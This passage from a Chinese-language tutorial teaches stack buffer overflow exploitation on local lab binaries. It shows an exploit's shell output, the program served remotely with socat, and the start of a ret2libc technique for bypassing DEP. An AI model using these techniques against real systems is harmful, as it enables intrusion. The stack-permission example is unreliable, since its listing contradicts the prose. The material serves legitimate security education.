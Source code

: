 ```
p.interactive()  #开启交互shell 
```

执行exp：

```
#!bash
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng 
```

接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：

```
#!bash
socat TCP4-LISTEN:10001,fork EXEC:./level1 
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
#!bash
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare) 
```

## 0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护

现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：

```
#!bash
gcc -fno-stack-protector -o level2 level2.c 
```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过 `sudo cat /proc/[pid]/maps` 查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。

```
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack] 
```

那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行 `system(“/bin/sh”)` 的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。

如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。
